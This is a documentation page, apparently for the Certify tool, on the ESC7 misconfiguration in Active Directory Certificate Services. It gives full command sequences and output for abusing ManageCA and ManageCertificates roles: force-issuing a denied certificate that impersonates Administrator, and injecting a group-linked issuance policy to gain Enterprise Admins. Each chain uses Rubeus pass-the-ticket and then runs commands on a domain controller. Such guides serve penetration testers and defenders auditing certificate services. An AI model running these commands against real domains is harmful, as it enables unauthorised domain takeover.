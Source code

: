```yaml
---
title: 'ESC7 - Vulnerable Certificate Authority Access Control'
description: 'Exploit overly permissive access controls on certificate authorities using ManageCA and ManageCertificates roles'
icon: 'shield-keyhole'
sidebarTitle: 'ESC7'
---
```


ESC7 is a misconfiguration in Active Directory Certificate Services (AD CS), which stems from overly permissive access controls on certificate authorities. Specifically, if a principal has privileged roles on a certificate authority, they can potentially elevate their privileges in the domain.

<Warning>
The severity of this vulnerability depends largely on the delegated security role(s) and certificate authority configuration.
</Warning>

## Security Roles

Either of the following security roles comprise an ESC7 vulnerability:

<Accordion title="CA Security Roles">
- **The `ManageCA` role (also called the `Administrator` role)**
  - Allows the principal to manage configurations and settings on the CA.
- **The `ManageCertificates` role (also called the `Officer` role)**
  - Allows the principal to manage and issue certificates that are pending approval.
</Accordion>

## Detection

We can search for certificate authorities with excessive role delegations using the `enum-cas --filter-vulnerable` command from Certify. For more information about the command and its parameters, please refer to the [Command Overview](./1-command-overview) page.

<CodeGroup>
```bash Command
Certify.exe enum-cas --filter-vulnerable --hide-admins
```

```diff Output
   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v2.0.0

[*] Action: Find certificate authorities
[*] Using the search base 'CN=Configuration,DC=corp,DC=local'
[*] Classifying vulnerabilities in the context of built-in low-privileged domain groups.

[*] Root CAs

    ...

[*] NTAuthCertificates - Certificates that enable authentication:

    ...

[*] Enterprise/enrollment certificate authorities:

    Enterprise CA Name            : CORP-CA01-CA
    DNS Hostname                  : ca01.corp.local
    FullName                      : ca01.corp.local\CORP-CA01-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=CORP-CA01-CA, DC=corp, DC=local
    Cert Thumbprint               : CFBDC6826AC074EF86BE7774F959A2FF5F322DDC
    Cert Serial                   : 12D3E574A63DE7854A9E5A1F4CD56490
    Cert Start Date               : 21/05/2025 12.13.47
    Cert End Date                 : 21/05/2030 12.23.46
    Cert Chain                    : CN=CORP-CA01-CA,DC=corp,DC=local
    User Specifies SAN            : Disabled
    RPC Request Encryption        : Enabled
    Vulnerabilities
+     ESC7                        : The CA has insecure delegated security roles or permissions.
    CA Permissions
      Owner: BUILTIN\Administrators             S-1-5-32-544

      Access Rights                                     Principal
      Allow  Enroll                                     NT AUTHORITY\Authenticated Users   S-1-5-11
+     Allow  ManageCA, ManageCertificates               CORP\Domain Users                  S-1-5-21-976219687-1556195986-4104514715-513
    Enrollment Agent Restrictions : None

    Enabled Certificate Templates:
        ...

Certify completed in 00:00:00.6622110
```
</CodeGroup>

<Info>
As seen in the `CA Permissions` section, arbitrary principals can have delegated security roles on certificate authorities. The abuse scenario for this vulnerability can vary depending on the delegated security role, but we have detailed some attack scenarios for each role in the following sections.
</Info>

## ManageCA

The [Certified Pre-Owned](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf) white-paper describes enabling [ESC6](./esc6-request-attribute-san-editf-attributesubjectaltname2) as one of the possible `ManageCA` attack vectors, but there are many other ways to abuse the security role.

<Accordion title="ManageCA Attack Vectors">
- **Enable [ESC6](./esc6-request-attribute-san-editf-attributesubjectaltname2) and perform the relevant attack.**
  - This can be toggled on/off with: `Certify.exe manage-ca --ca <ca> --esc6`
- **Enable [ESC11](./esc11-ntlm-relay-to-ad-cs-rpc-interfaces) and carry out the relevant attack.**
  - This can be toggled on/off with: `Certify.exe manage-ca --ca <ca> --esc11`
- **Enable [ESC16](./esc16-security-extension-disabled-on-certificate-authority) and carry out the relevant attack.**
  - This can be toggled on/off with: `Certify.exe manage-ca --ca <ca> --esc16`
- **Enable a disabled certificate template that is vulnerable to another escalation technique.**
  - These can be enabled/disabled with: `Certify.exe manage-ca --ca <ca> --template <template>`
- **Issue a certificate request that has failed due to access violation.**
  - These can be issued with: `Certify.exe manage-ca --ca <ca> --issue-id <request id>`
  - This attack requires the `ManageCertificates` security role.
- **Coerce the CA server to authenticate over NTLM (and relay) via CRL Distribution Points (CDPs).**
  - For more information, please refer to [this blogpost](https://www.tarlogic.com/blog/ad-cs-manageca-rce/).
- **Obtain RCE on the CA server by deploying a webshell via CRL Distribution Points (CDPs).**
  - For more information, please refer to [this blogpost](https://www.tarlogic.com/blog/ad-cs-manageca-rce/).
</Accordion>

<Warning>
Enabling [ESC6](./esc6-request-attribute-san-editf-attributesubjectaltname2), [ESC11](./esc11-ntlm-relay-to-ad-cs-rpc-interfaces) or [ESC16](./esc16-security-extension-disabled-on-certificate-authority) may require a restart, so the easiest way to abuse the `ManageCA` role is definitely to issue a failed certificate request.
</Warning>

To do this, we need to identify a certificate template for which we do not have enrollment privileges but that has all the attributes required to be vulnerable to another escalation technique.

We can search for certificate templates that have all the attributes required for the [ESC1](./esc1-misconfigured-client-authentication) abuse scenario (save for enrollment rights) using the `enum-templates --filter-client-auth --filter-supply-subject` command from Certify.

<CodeGroup>
```bash Command
Certify.exe enum-templates --filter-client-auth --filter-supply-subject --hide-admins
```

```diff Output
   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v2.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=corp,DC=local'
[*] Classifying vulnerabilities in the context of built-in low-privileged domain groups.

[*] Listing info about the enterprise certificate authority 'CORP-CA01-CA'

    ...

[*] Certificate templates found using the current filter parameters:

    Template Name                         : CustomUser
    Enabled                               : True
    Publishing CAs                        : ca01.corp.local\CORP-CA01-CA
    Schema Version                        : 2
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
+   Certificate Name Flag                 : ENROLLEE_SUPPLIES_SUBJECT
    Enrollment Flag                       : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
+   Manager Approval Required             : False
+   Authorized Signatures Required        : 0
+   Extended Key Usage                    : Client Authentication, Encrypting File System, Secure Email
    Certificate Application Policies      : Client Authentication, Encrypting File System, Secure Email
    Permissions
      Enrollment Permissions
      Object Control Permissions

Certify completed in 00:00:01.0499119
```
</CodeGroup>

<Info>
If we can only identify certificate templates that are disabled (i.e. not published by any certificate authorities), we can simply enable them on an arbitrary certificate authority using the following command:
- `Certify.exe manage-ca --ca <ca> --template <template>`
</Info>

Once we have identified a desirable certificate template, we can request a certificate based on the template from any user, and include a Subject Alternative Name (SAN) for a target user that we want to impersonate (e.g. `Administrator`).

This can be done using the `request` command from Certify. The SAN can be in either of the formats `UserPrincipalName` (`--upn`), `DnsName` (`--dns`), or `Rfc822Name` (`--email`). For environments where *Strong Certificate Mapping* is enabled, the security identifier (SID) of the target user must also be supplied with the `--sid` parameter.

<CodeGroup>
```bash Command
Certify.exe request --ca ca01.corp.local\CORP-CA01-CA --template CustomUser --upn Administrator --sid S-1-5-21-976219687-1556195986-4104514715-500
```

```diff Output
   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v2.0.0

[*] Action: Request a certificate

[*] Current user context    : CORP\lowpriv
[*] No subject name specified, using current context as subject.

[*] Template                : CustomUser
[*] Subject                 : CN=lowpriv, OU=Users, OU=Corp, DC=corp, DC=local
[*] Subject Alt Name(s)     : Administrator
[*] Sid Extension           : S-1-5-21-976219687-1556195986-4104514715-500

[*] Certificate Authority   : ca01.corp.local\CORP-CA01-CA
[!] CA Response             : The submission failed: Denied by Policy Module
[!] Last status             : 0x80094012
[*] Request ID              : 1337

[X] Error requesting the certificate: certificate has not yet been issued! (disposition: 2)

[*] Private Key (PEM)       :

LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQ0KT...

Certify completed in 00:00:03.6075110
```
</CodeGroup>

<Info>
Once the certificate request has failed, the private key used for the certificate request is printed, and we must save this for later.
</Info>

We need the `ManageCertificates` role for the next step. If we do not have the role, we can grant it with the following command:
- `Certify.exe manage-ca --ca <ca> --officer <sid>`

With both the `ManageCA` and the `ManageCertificates` roles, we can force-issue the certificate request.

<CodeGroup>
```bash Command
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --issue-id 1337
```

```diff Output
   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v2.0.0

[*] Action: Manage a certificate authority

[*] Attempting to issue certificate request with ID = '1337'.
[+] The certificate request with ID = '1337' was issued.

Certify completed in 00:00:00.1490875
```
</CodeGroup>

Now that the certificate request has been issued, we can go ahead and download the certificate from the CA. This can be done using the `request-download` command from Certify. We can include the private key from our certificate request to form a fully authenticatable PKCS12 (PFX) certificate.

<CodeGroup>
```bash Command
Certify.exe request-download --ca ca01.corp.local\CORP-CA01-CA --id 1337 --private-key LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQ0KT...
```

```diff Output
   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v2.0.0

[*] Action: Download a certificate

[*] Certificate Authority   : ca01.corp.local\CORP-CA01-CA
[*] Request ID              : 1337

[*] Certificate (PFX)       :

MIACAQMwgAYJKoZIhvcNAQcBoIAkgASCA+gwgDCABgkqh...

Certify completed in 00:00:00.2616489
```
</CodeGroup>

Once we have obtained the certificate, we can authenticate as the target principal by presenting the issued certificate. This can be done using [Rubeus](/ghostpack-docs/Rubeus-mdx/overview) with the [`asktgt`](/ghostpack-docs/Rubeus-mdx/commands/ticket-requests/asktgt) command.

<CodeGroup>
```bash Command
Rubeus.exe asktgt /user:Administrator /certificate:MIACAQMwgAYJKoZIhvcNAQcBoIAkgASCA+gwgDCABgkqh... /ptt
```

```diff Output
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=lowpriv, OU=Users, OU=Corp, DC=corp, DC=local
[*] Building AS-REQ (w/ PKINIT preauth) for: 'corp.local\Administrator'
[*] Using domain controller: 10.10.10.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGcjCCBm6gAwIBBaEDAgEWooIFfzCCBXthggV3MIIFc6ADAgEFoQ8bDU1FR0FLRUsuTE9DQUyiIjAg
      ...
[+] Ticket successfully imported!

  ServiceName              :  krbtgt/corp.local
  ServiceRealm             :  CORP.LOCAL
  UserName                 :  Administrator
  UserRealm                :  CORP.LOCAL
  StartTime                :  30/06/2025 18.13.10
  EndTime                  :  01/07/2025 04.13.10
  RenewTill                :  07/07/2025 18.13.10
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  wAFNZlLQrfb4N92MQjR1fw==
  ASREP (key)              :  16C90B51B01389B03C92F422EFBFF805
```
</CodeGroup>

Since the `/ptt` parameter was supplied to [Rubeus](/ghostpack-docs/Rubeus-mdx/overview) when requesting the TGT, the ticket has been injected into the Kerberos ticket list, and we should be able to authenticate as the target user and access systems that the target user has access to.

<CodeGroup>
```powershell Command
Invoke-Command -ComputerName DC01 -ScriptBlock {whoami}
```

```bash Output
CORP\Administrator
```
</CodeGroup>

## ManageCertificates

The [Certified Pre-Owned](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf) white-paper describes approving pending certificates as a possible `ManageCertificates` attack vector, and as such require a certificate template with the following criteria:

<Accordion title="ManageCertificates Template Requirements">
- The enterprise CA grants enrollment rights to the attacker-controlled user.
  - Otherwise, the user would be unable to request any certificates from the CA.
- The certificate template grants enrollment rights to the attacker-controlled user.
  - Otherwise, the user would be unable to request certificates based on the specific template.
- The "manager approval" feature is **enabled** for the certificate template.
  - Otherwise, the `ManageCertificates` role would not be able to manage and issue the certificate request.
- The "authorized signature" feature is disabled for the certificate template.
  - Otherwise, an enrollment agent would need to sign the certificate request on behalf of the requester.

Additionally, in order to perform privilege escalation, the certificate template must match the criteria of another vulnerability:
- The certificate template defines a client authentication EKU and allows the requester to specify subject details ([ESC1](./esc1-misconfigured-client-authentication)).
- The certificate template defines the `Any Purpose` (`2.5.29.37.0`) EKU or `Subordinate CA` (No EKUs) ([ESC2](./esc2-misconfigured-any-purpose)).
- The certificate template defines the `Certificate Request Agent` (`1.3.6.1.4.1.311.20.2.1`) EKU ([ESC3](./esc3-misconfigured-certificate-request-agent)).
</Accordion>

We can search for certificate templates that require manager approval using the `enum-templates --filter-manager-approval` command from Certify. For more information about the command and its parameters, please refer to the [Command Overview](./1-command-overview) page.

<CodeGroup>
```bash Command
Certify.exe enum-templates --filter-enabled --filter-client-auth --filter-manager-approval --hide-admins
```

```diff Output
   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v2.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=corp,DC=local'
[*] Classifying vulnerabilities in the context of built-in low-privileged domain groups.

[*] Listing info about the enterprise certificate authority 'CORP-CA01-CA'

    ...

[*] Certificate templates found using the current filter parameters:

    Template Name                         : CustomUser_ManualAuth
    Enabled                               : True
    Publishing CAs                        : ca01.corp.local\CORP-CA01-CA
    Schema Version                        : 2
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_UPN
    Enrollment Flag                       : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
+   Manager Approval Required             : True
+   Authorized Signatures Required        : 0
+   Extended Key Usage                    : Client Authentication, Encrypting File System, Secure Email
    Certificate Application Policies      : Client Authentication, Encrypting File System, Secure Email
    Permissions
      Enrollment Permissions
+       Enrollment Rights           : CORP\Domain Users               S-1-5-21-976219687-1556195986-4104514715-513
      Object Control Permissions

Certify completed in 00:00:01.0499119
```
</CodeGroup>

If the above certificate had the `ENROLLEE_SUPPLIES_SUBJECT` flag in the `Certificate Name Flag` attribute, it would be possible to perform an [ESC1](./esc1-misconfigured-client-authentication) attack, but with the slight variation of requiring manual manager approval using the `ManageCertificates` role. This would allow us to bypass the "manager approval has to be disabled" constraint for the [ESC1](./esc1-misconfigured-client-authentication) vulnerability.

However, since this is not the case, another solution must be found. [Valdemar Carøe](https://www.linkedin.com/in/valdemar-car%C3%B8e/) and [Jonas Bülow Knudsen](https://medium.com/@jonasblowknudsen) have recently discovered a new technique inspired by the [ESC13](./esc13-authentication-mechanism-assurance-ama) misconfiguration, which requires the existence of a group-linked enterprise OID (issuance policy). The issuance policy does not have to be applied to any certificate template, it just has to exist.

We can search for group-linked enterprise OIDs using the `enum-pkiobjects --show-linked-oids` command from Certify. For more information about the command and its parameters, please refer to the [Command Overview](./1-command-overview) page.

<CodeGroup>
```bash Command
Certify.exe enum-pkiobjects --show-linked-oids
```

```diff Output
   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v2.0.0

[*] Action: Find PKI object controllers
[*] Using the search base 'CN=Configuration,DC=corp,DC=local'

[*] PKI Object Controllers:

    ...

[*] Group-linked Enterprise OIDs:

Oid          :  1.3.6.1.4.1.311.21.8.5416619.5330661.8209312.10827481.9506053.121.1087175.7443011
Display Name :  Temporary Admin Issuance
Linked Group :  CN=TemporaryAdmins,OU=Groups,OU=Corp,DC=corp,DC=local

Certify completed in 00:00:00.7806492
```
</CodeGroup>

Once we have identified a group-linked enterprise OID, we can evaluate if the group is worth compromising. This includes checking what the group is a member of, and what access control permissions the group has across the environment.

<CodeGroup>
```powershell Command
Get-ADGroup TemporaryAdmins -Properties MemberOf,Members
```

```bash Output
DistinguishedName : CN=TemporaryAdmins,OU=Groups,OU=Corp,DC=corp,DC=local
GroupCategory     : Security
GroupScope        : Universal
MemberOf          : {CN=Enterprise Admins,CN=Users,DC=corp,DC=local}
Members           : {}
Name              : TemporaryAdmins
ObjectClass       : group
ObjectGUID        : 96a21f6c-8b35-4654-bc7d-4b9b7a40fbdd
SamAccountName    : TemporaryAdmins
SID               : S-1-5-21-976219687-1556195986-4104514715-1102
```
</CodeGroup>

<Info>
Since the `TemporaryAdmins` group is a member of the `Enterprise Admins` group, we deem that it is worth compromising, so we request a certificate from the manager approval template using the `request` command from Certify.
</Info>

<CodeGroup>
```bash Command
Certify.exe request --ca ca01.corp.local\CORP-CA01-CA --template CustomUser_ManualAuth
```

```diff Output
   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v2.0.0

[*] Action: Request a certificate

[*] Current user context    : CORP\lowpriv
[*] No subject name specified, using current context as subject.

[*] Template                : CustomUser_ManualAuth
[*] Subject                 : CN=lowpriv, OU=Users, OU=Corp, DC=corp, DC=local

[*] Certificate Authority   : ca01.corp.local\CORP-CA01-CA
[*] CA Response             : The certificate is still pending.
[*] Request ID              : 1337

[X] Error requesting the certificate: certificate has not yet been issued! (disposition: 5)

[*] Private Key (PEM)       :

LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQ0KT...

Certify completed in 00:00:03.5423104
```
</CodeGroup>

<Info>
Once the certificate request has failed, the private key used for the certificate request is printed, and we must save this for later.
</Info>

Using the `ManageCertificates` role, we can now inject the group-linked issuance policy into the pending certificate request using the `manage-ca --ca <ca> --issuance-policy <request id>:<policy oid>` command from Certify.

<CodeGroup>
```bash Command
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --issuance-policy 1337:1.3.6.1.4.1.311.21.8.5416619.5330661.8209312.10827481.9506053.121.1087175.7443011
```

```diff Output
   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v2.0.0

[*] Action: Manage a certificate authority

[*] Attempting to set issuance policies for targeted certificate requests.
[+] Successfully set issuance policies for certificate request with ID = '1337'.

Certify completed in 00:00:00.1322311
```
</CodeGroup>

Once the issuance policy is injected, we can issue (manager-approve) the certificate request.

<CodeGroup>
```bash Command
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --issue-id 1337
```

```diff Output
   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v2.0.0

[*] Action: Manage a certificate authority

[*] Attempting to issue certificate request with ID = '1337'.
[+] The certificate request with ID = '1337' was issued.

Certify completed in 00:00:00.1393129
```
</CodeGroup>

Now that the certificate request has been issued, we can go ahead and download the certificate from the CA. This can be done using the `request-download` command from Certify. We can include the private key from our certificate request to form a fully authenticatable PKCS12 (PFX) certificate.

<CodeGroup>
```bash Command
Certify.exe request-download --ca ca01.corp.local\CORP-CA01-CA --id 1337 --private-key LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQ0KT...
```

```diff Output
   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v2.0.0

[*] Action: Download a certificate

[*] Certificate Authority   : ca01.corp.local\CORP-CA01-CA
[*] Request ID              : 1337

[*] Certificate (PFX)       :

MIACAQMwgAYJKoZIhvcNAQcBoIAkgASCA+gwgDCABgkqh...

Certify completed in 00:00:00.2616489
```
</CodeGroup>

Once we have obtained the certificate, we can pass it to [Rubeus](/ghostpack-docs/Rubeus-mdx/overview) with the [`asktgt`](/ghostpack-docs/Rubeus-mdx/commands/ticket-requests/asktgt) command using our low-privileged user.

<CodeGroup>
```bash Command
Rubeus.exe asktgt /user:lowpriv /certificate:MIACAQMwgAYJKoZIhvcNAQcBoIAkgASCA+gwgDCABgkqh... /ptt
```

```diff Output
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=lowpriv, OU=Users, OU=Corp, DC=corp, DC=local
[*] Building AS-REQ (w/ PKINIT preauth) for: 'corp.local\lowpriv'
[*] Using domain controller: 10.10.10.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGcjCCBm6gAwIBBaEDAgEWooIFfzCCBXthggV3MIIFc6ADAgEFoQ8bDU1FR0FLRUsuTE9DQUyiIjAg
      ...
[+] Ticket successfully imported!

  ServiceName              :  krbtgt/corp.local
  ServiceRealm             :  CORP.LOCAL
  UserName                 :  lowpriv
  UserRealm                :  CORP.LOCAL
  StartTime                :  30/06/2025 18.13.10
  EndTime                  :  01/07/2025 04.13.10
  RenewTill                :  07/07/2025 18.13.10
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  wAFNZlLQrfb4N92MQjR1fw==
  ASREP (key)              :  16C90B51B01389B03C92F422EFBFF805
```
</CodeGroup>

Since the `/ptt` parameter was supplied to [Rubeus](/ghostpack-docs/Rubeus-mdx/overview) when requesting the TGT, we should now have a ticket in our Kerberos ticket list that contains `Enterprise Admins` membership. We can verify this by attempting to execute `whoami /all` on a domain controller.

<CodeGroup>
```powershell Command
Invoke-Command -ComputerName DC01 -ScriptBlock { whoami /all }
```

```diff Output
USER INFORMATION
----------------

User Name    SID
============ =============================================
corp\lowpriv S-1-5-21-976219687-1556195986-4104514715-1100


GROUP INFORMATION
-----------------

Group Name                Type   SID                                           Attributes
========================= ====== ============================================= ==================================================
...
CORP\TemporaryAdmins      Group  S-1-5-21-976219687-1556195986-4104514715-1102 Mandatory group, Enabled by default, Enabled group
CORP\Enterprise Admins    Group  S-1-5-21-976219687-1556195986-4104514715-519  Mandatory group, Enabled by default, Enabled group
...
```
</CodeGroup>